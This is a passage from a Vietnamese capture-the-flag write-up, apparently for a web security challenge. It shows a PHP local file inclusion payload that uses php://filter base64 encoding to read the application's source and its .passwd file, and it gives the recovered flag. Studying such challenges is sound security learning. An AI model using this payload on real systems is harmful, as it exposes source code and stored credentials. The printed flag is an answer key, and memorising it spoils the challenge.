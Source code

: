 - Ta nhận được kết quả:

![1](img/51/Screenshot%20from%202023-01-31%2016-11-27.png)

- Decode nó ra thì được đoạn này:

```
$user=$_POST["username"];
$pass=$_POST["password"];
if($user === "admin" && $pass === "".file_get_contents(".passwd").""){
print "Flag: ".file_get_contents(".passwd")."<br />";
}
```

- Sửa payload để đọc file .passwd:

```
php://filter/convert.base64-encode/resource=.passwd
```

![1](img/51/Screenshot%20from%202023-01-31%2016-16-03.png)

- Cuối cùng decode thành ascii là xong. 

```
Flag: c934fed17f1cac3045ddfeca34f332bc
```

# 52. 	XPath injection - Authentication
